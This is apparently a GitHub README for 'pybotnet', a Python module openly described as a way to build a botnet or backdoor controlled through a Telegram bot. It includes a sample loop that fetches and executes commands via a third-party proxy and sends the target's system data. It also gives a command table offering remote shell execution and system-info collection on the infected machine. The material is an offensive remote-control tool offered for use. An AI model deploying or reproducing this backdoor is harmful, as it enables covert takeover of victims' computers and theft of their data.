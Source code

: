 # pybotnet  0.08

A module for building botnet or back door with Python and Telegram control panel
- [x] windows
- [x] linux
- [ ] mac

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message

 


### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
Send this message to your api bot in telegram, using the admin account.

COMMAND | DO THIS | Minimum version required |
--------|---------|--------------------------|
do_sleep \<scconds> \<message (Optional)> |  \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 |
get_info | return system info | 0.06 |
cmd \<system command> | run system command in shell or cmd (Be careful not to give endless command)| 007 |

